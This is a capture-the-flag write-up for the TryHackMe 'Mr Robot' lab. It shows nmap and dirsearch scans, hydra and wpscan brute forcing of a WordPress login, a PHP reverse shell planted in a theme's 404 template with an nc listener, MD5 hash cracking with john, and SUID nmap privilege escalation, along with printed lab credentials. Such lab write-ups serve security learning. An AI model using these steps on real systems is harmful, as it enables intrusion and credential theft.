 ## Mr Robot CTF [THM]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/57cfddb9-c046-4f14-90f1-e4225d1fe13f)


Link: https://tryhackme.com/room/mrrobot

Goal: 3 keys

## nmap
```
nmap -sC -sV 10.10.44.210            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 04:55 EDT
Nmap scan report for 10.10.44.210
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.46 seconds
```
- Port 22 close
- Port 80 open
- Port 443 open

## view web [port 80]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/cf42b083-2891-4517-88cb-18ac79e35e23)

## dirsearch
```
dirsearch -u 10.10.44.210             
                                                                               
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.44.210/

[05:22:22] Starting: 
[05:23:35] 200 -    1KB - /admin/                                           
[05:23:35] 200 -    1KB - /admin/?/login             
[05:23:37] 200 -    1KB - /admin/index                                      
[05:23:37] 200 -    1KB - /admin/index.html                                 
[05:24:53] 200 -    0B  - /favicon.ico                                              
[05:25:07] 200 -    1KB - /index.html                                                                                  
[05:25:14] 200 -  504KB - /intro                                            
[05:25:16] 200 -  309B  - /license                                          
[05:25:16] 200 -  309B  - /license.txt
[05:25:55] 200 -   64B  - /readme                                           
[05:25:55] 200 -   64B  - /readme.html                                      
[05:25:58] 200 -   41B  - /robots.txt                                                  
[05:26:08] 200 -    0B  - /sitemap                                          
[05:26:08] 200 -    0B  - /sitemap.xml.gz                                   
[05:26:08] 200 -    0B  - /sitemap.xml
[05:26:35] 200 -    1B  - /wp-admin/admin-ajax.php                   
[05:26:35] 200 -    0B  - /wp-config.php
[05:26:35] 200 -    0B  - /wp-content/                                                         
[05:26:35] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php                  
[05:26:36] 200 -    0B  - /wp-cron.php
[05:26:36] 200 -    3KB - /wp-login
[05:26:36] 200 -    3KB - /wp-login.php                                     
[05:26:36] 200 -    3KB - /wp-login/                                        

Task Completed
```
- /robots.txt
- /wp-login

## robots.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/c2a5b7b6-fc4c-4c46-b7d9-55dc34cc3ab4)

- fsocity.dic
- key-1-of-3.txt

## key 1

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/ebc8f0cc-d162-4bfc-b0bb-2f3353c27aec)

## download fsociety.dic

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/d40f3f58-7dc7-4171-bd82-db75b4ca66f4)

- to sort and filter duplicate
```
sort fsocity.dic | uniq > filter.txt
```

## wp-login

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/f7433ee8-b9d5-452c-a2f6-4b039608c1c1)

## hydra [bruteforce username]
```
hydra -L filter.txt -p admin 10.10.191.118 http-post-form "/wp-login.php:log=^USER^&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.191.118%2Fwp-admin%2F&testcookie=1:Invalid username" -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.191.118:80/wp-login.php:log=^USER^&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.191.118%2Fwp-admin%2F&testcookie=1:Invalid username
[ATTEMPT] target 10.10.191.118 - login "000" - pass "admin" - 1 of 11452 [child 0] (0/0)
[80][http-post-form] host: 10.10.191.118   login: elliot   password: admin
[80][http-post-form] host: 10.10.191.118   login: Elliot   password: admin
[80][http-post-form] host: 10.10.191.118   login: ELLIOT   password: admin
[ATTEMPT] target 10.10.191.118 - login "Embedded" - pass "admin" - 5489 of 11452 [child 12] (0/0)
```
- found username: elliot, Elliot, ELLIOT

## wpscan [bruteforce password]
- using username from hydra
```
wpscan --url http://10.10.245.248/wp-login -U Elliot -P filter.txt    

Interesting Finding(s):

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                             
Trying Elliot / erased Time: 00:08:34 <==============                                > (5630 / 17081) 32.96%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```
- found Username: Elliot, Password: ER28-0652

## successfully login

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/57d938ad-5b04-4a35-926e-5075a7da1656)

## setup php reverse shell
- goto editor => edit 404 template => replace with php reverse shell => update file

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/cc9fb496-64c0-4fc0-bf64-335f3d1182e9)

## setup netcat listener
- goto `http://10.10.191.118/wordpress/wp-content/themes/twentyfifteen/404.php` dont forget to open listener `nc -lnvp 1337` on terminal

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b6020c84-067a-4f2b-8734-9bb82d14b0bf)

- `python3 -c 'import pty;pty.spawn("/bin/bash")'` upgrade shell
- `export TERM=xterm` enable clear

## cd /home/robot
- `cat password.raw-md5` `robot:c3fcd3d76192e4007dfb496cca67e13b`
- `cat key-2-of-3.txt` `Permission denied`

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/bb3fb870-6da9-4d78-b614-31155ac89681)


## crack md5 hash
```
john --format=Raw-MD5 --wordlist=/home/kali/Desktop/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2023-08-02 12:12) 5.263g/s 213221p/s 213221c/s 213221C/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

- found password: abcdefghijklmnopqrstuvwxyz

## switch user to robot

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/ce39eb3b-2a3d-4efa-b7b3-9ec1ec630974)

## key 2

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/8ded0f0d-6d7d-46dc-ade5-c1fe5d1a92fc)

## privilege escalation
- using SUID Commands `find / -user root -perm /4000 2>/dev/null`

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/74d1126b-baf4-4607-86d9-d01986e855c3)

- Search GTFObins for [nmap](https://gtfobins.github.io/gtfobins/nmap/) because it looks sus here.

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/45e99a78-295b-4192-9b94-9c33460b5800)

- root!

## key 3

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b26a09eb-3d7f-4402-a63f-1bf3bf9b0089)

- PWNED! :star:
